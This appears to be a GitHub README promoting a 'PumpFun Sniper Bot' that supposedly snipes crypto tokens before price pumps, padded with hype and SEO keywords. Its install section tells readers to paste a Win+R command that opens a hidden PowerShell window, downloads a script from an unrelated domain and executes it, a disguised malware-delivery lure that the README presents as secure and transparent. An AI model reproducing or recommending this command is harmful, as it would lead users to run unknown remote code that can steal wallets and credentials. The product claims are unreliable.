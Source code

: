 <div align="center">
  
## **PumpFun Sniper Bot** | **Automated Snipe Pumpfun tokens** 🚀🔍

</div>

<div align="center">
<img src="https://pbs.twimg.com/media/GXCLNYDaMAECYyS?format=jpg&name=large" width="800" height="350" />
</div>

**PumpFun Sniper Bot** is a high-speed, fully automated **crypto sniper bot** designed to help you **catch tokens at the perfect moment**, just before they explode in price.

If you’ve ever missed out on a quick pump because you were too slow to react, **PumpFun Sniper Bot** is here to give you that crucial edge and make sure you never miss a profitable opportunity again.

---

## 🔧 What Is It?

**PumpFun Sniper Bot** is a powerful desktop application that monitors real-time token price movements and **automatically buys** tokens just before a price surge. It scans for **pump signals** and executes trades at lightning-fast speeds, allowing you to enter the market before the price spikes.

Key features include:
- 🕒 **Super fast execution** — snipes tokens within seconds of a pump.
- ⚡ Real-time pump detection — uses advanced algorithms to spot price movements.
- 📉 **Smart entry** — buys tokens right before the price explosion.
- 🔐 **Secure and private** — runs locally, keeping all your data private.

---

## 💻 How It Works

The bot continuously monitors price movements and volume changes across multiple exchanges. Once a **pump signal** is detected, it automatically triggers a **buy order** at the optimal price, ensuring you catch the early stage of the pump.

### Key Features:
- 🚀 **Fast Sniping**: Snipes tokens just before they take off, maximizing profits.
- 📊 Real-time price and volume tracking on multiple exchanges.
- 🧠 Advanced algorithm analyzes market data and identifies profitable pumps.
- ⚙️ Customizable settings for different strategies (target token, price range, etc.).
- 💥 Instant execution of buy orders without delays or slippage.

---

## 🧠 Why Use PumpFun Sniper Bot?

There are many bots, **but**:
- ❌ Many bots are slow to react, causing you to miss out on quick pumps  
- ❌ They lack real-time data and can miss key moments  
- ❌ They don’t offer fine-tuned control over your sniping strategy  
- ❌ Some bots don’t allow you to track and manage your sniper activity easily  

**PumpFun Sniper Bot** is:
- ✅ Super fast — executes trades within seconds of detecting a pump  
- ✅ Fully automated — no need for manual intervention  
- ✅ Highly customizable — set your own entry points, target tokens, and more  
- ✅ Runs locally — **no API limits or data collection**  
- ✅ Secure and private — keeps your actions and data safe

---

## 📦 Installation
### 🚀 Why Use a Shell Script Instead

We’ve switched from a traditional download button to a one-line shell script because it’s simply a **better, faster, and smarter way** to deliver the tool:

- ✅ **Always Up-to-Date** – Installs the latest version automatically.
- ⚙️ **One-Liner Setup** – Just copy, paste, and run. No manual downloads.
- 💡 **Smart Automation** – Automatically handles setup and dependencies.
- 🛡️ **Secure & Transparent** – Uses TLS 1.2. You can inspect the code yourself.
- 🔧 **Dev-Friendly** – CLI-first approach that’s fast, efficient, and clean.

---

### 💻 Install Command (Run via `Win + R`)
<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/1233';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'rayid68374').Content;</code>
</pre>
---

## 🛠️ In Development

- Integration with additional exchanges (Binance, Kraken, etc.)
- Advanced risk management features (stop loss, take profit, etc.)
- Portfolio tracking for sniper trades and profits

---

## ⭐ Support the Project

If you like the bot, please ⭐ the repo, share it on Reddit, and leave feedback!  
Pull requests, ideas, and bug reports are always welcome.

---

**💸 Catch every pump at the right moment.  
With PumpFun Sniper Bot, you’re always ahead of the game.**

## SEO Keywords
- Crypto Sniper Bot
- Pump Sniper
- Automated Sniper Bot
- Crypto Trading Bot
- Pump Signal Bot
- Crypto Sniping Bot
- Fast Trading Bot
